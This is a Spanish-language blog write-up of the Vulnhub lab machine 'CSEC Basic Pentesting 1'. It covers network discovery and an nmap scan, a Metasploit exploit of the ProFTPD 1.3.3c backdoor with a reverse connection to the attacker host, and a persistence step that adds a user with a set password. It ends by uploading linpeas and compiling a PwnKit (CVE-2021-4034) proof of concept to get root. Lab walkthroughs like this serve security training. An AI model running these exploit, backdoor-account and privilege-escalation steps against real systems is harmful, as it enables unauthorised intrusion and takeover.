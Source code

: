 ```yaml
---
title: "Vulnhub #0: CSEC Basic Pentesting 1"
description: Pentesting a máquina CSEC 1 en Vulnhub
date: 2025-05-10
scheduled: 2025-05-10
tags:
  - hacking
layout: layouts/post.njk
---
```


Puedes descargar la máquina vulnerable desde [Vulnhub](https://www.vulnhub.com/entry/basic-pentesting-1,216/)

## Descubrimiento de host

Usamos `sudo netdiscover` para descubrir los host en la red.

```plaintext
Ubuntu:   192.168.0.20
Kali:     192.168.0.16
```

## Descubriendo servicios y versiones

Debemos identificar puertos, servicios y versiones de los mismos.

Usamos `nmap -sT -p- -A 192.168.0.26 -oA resultados`

En los resultados encontramos algo de interés:

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack ProFTPD 1.3.3c
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
```

## Explotando la maquina

### Buscar exploit

Vamos a probar a romper `FTPd` con `metasploit`

Podemos lanzar metasploit con `msfconsole`

Si buscamos exploits con `search proFTPd` podemos encontrar una para nuestra version.

### Configuracion del exploit

Puedes usar `use unix/ftp/proftpd_133c_backdoor` para usar este exploit, tambien puedes usar su index.

Con show options vemos que debemos indicar el `rhosts`, `lhost` y un `exploit target` o payload a ejecutar.

Para ver los payloads disponibles `show payloads`.

Para cargar un payload `set payload index|path`. 

Para configurar la maquina a atacar `set rhosts 192.168.0.26`.

Para configurar que maquina se queda escuchando `set lhost 192.168.0.16`.

Lanzamos con `run`, deberíamos obtener acceso a una terminal, podemos comprobarlo con `whoami` o `ls`.

### Persistencia

Podemos crear un usuario con `useradd hhyyppeerr`.

Y crear una contraseña con `echo "hhyyppeerr:ilovesummer" | chpasswd`

Podemos comprobar que podemos entrar al sistema con `ssh hhyyppeerr@192.168.0.26` e introduciendo `ilovesummer` como contraseña.

## Weaponization y escalado de privilegios

Copiamos `linpeas` o el script que queramos usar a la maquina objetivo con `scp ./linpeas.sh hhyyppeerr@192.168.0.26:/tmp/linpeas.sh`.

Entramos de nuevo en la maquina objetivo con nuestro usuario y lanzamos el script.

Linpeas nos ha mostrado el siguiente exploit disponible:

```
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                                                                            
[+] [CVE-2021-4034] PwnKit                                                                                                    

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

Podemos buscar el CVE para encontrar exploits, en nuestro caso: https://github.com/arthepsy/CVE-2021-4034

Nos copiamos el repositorio a la maquina objetivo con `nano` o `scp`.

Compilamos y ejecutamos el codigo:

```plaintext
$ ls
cve-2021-4034-poc.c  README.md
$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
$ ls
cve-2021-4034-poc  cve-2021-4034-poc.c  README.md
$ ./cve-2021-4034-poc
# whoami
root
```

Puede que esto no funcione, pero con `make` si.
